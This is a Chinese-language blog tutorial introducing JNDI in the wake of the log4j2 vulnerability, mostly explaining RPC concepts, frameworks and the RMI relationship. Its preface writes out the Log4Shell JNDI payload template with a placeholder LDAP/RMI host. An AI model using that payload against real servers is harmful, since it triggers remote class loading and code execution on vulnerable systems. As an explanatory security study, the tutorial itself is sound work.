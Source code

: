 0x0 JNDI入门指北
============

前言
--

log4j2 宛如过年一般，趁此机会对没理清的 JNDI 协议仔细再捋一捋

log4j的payload很好记：`${jndi:ldap/rmi://xxxxxx/exp}`

那么，我们就需要研究一下是怎么来的。

首先来看rpc

0x1 RPC
=======

RPC即 `Remote Procedure Call`（远程过程调用），==是一种技术思想而并非一种规范的协议==，是一种通过网络从远程计算机请求服务的过程。

常见 RPC 技术和框架有：

- 应用级的服务框架：阿里的 Dubbo/Dubbox、Google gRPC、Spring Boot/Spring Cloud。
- 远程通信协议：RMI、Socket、SOAP(HTTP XML)、REST(HTTP JSON)。
- 通信框架：MINA 和 Netty。

一个rpc框架有以下必备条件：传输协议，序列化，注册中心，服务路由，负载均衡，IO框架，心跳机制，服务鉴权，服务隔离，服务治理，监控埋点。

- Dubbo：国内最早开源的 RPC 框架，由阿里巴巴公司开发并于 2011 年末对外开源，仅支持 Java 语言。
- Motan：微博内部使用的 RPC 框架，于 2016 年对外开源，仅支持 Java 语言。
- Tars：腾讯内部使用的 RPC 框架，于 2017 年对外开源，仅支持 C++ 语言。
- Spring Cloud：国外 Pivotal 公司 2014 年对外开源的 RPC 框架，仅支持 Java 语言
- gRPC：Google 于 2015 年对外开源的跨语言 RPC 框架，支持多种语言。
- Thrift：最初是由 Facebook 开发的内部系统跨语言的 RPC 框架，2007 年贡献给了 Apache 基金，成为 Apache 开源项目之一，支持多种语言。

0x2 联系
======

先直接给出结论

`Spring Cloud是一种RPC框架，但是区别是它使用的是http协议的传输，整体技术和普通RPC如dubbo/thrift有很大区别，所以一般会分开说。`

而Springcloud的核心是微服务，微服务中使用 RPC的思想尤为明显

我们熟知的一些漏洞，能够远程加载恶意类的，或多或少都有着使用微服务架构的影子，所以我们才需要对这一领域进行研究。

![img](https://pic3.zhimg.com/v2-cade4fe83bffcb193c05c68f63990c2e_b.jpg)

使用场景
----

- 在分布式场景中，我们一般要考虑调用问题
- 远程过程调用，要能够像本地过程调用一样方便，让使用者感受不到远程调用的逻辑
- rpc的过程图
    
    ![img](https://gimg2.baidu.com/image_search/src=http%3A%2F%2Fimg2018.cnblogs.com%2Fblog%2F1009724%2F201909%2F1009724-20190918170851529-1634452001.png&refer=http%3A%2F%2Fimg2018.cnblogs.com&app=2002&size=f9999,10000&q=a80&n=0&g=0n&fmt=jpeg?sec=1643940372&t=ea8df0dfd0d97632c93a32d97dd5252f)
- RPC：(Remote Procedure call) 即远程过程调用，它是一个计算机通信协议，RPC与语言无关
- RMI：(Remote Method Invocation) 远程方法执行，是RPC的纯java实现方式

简单来说，就是一个节点请求另一个节点的服务

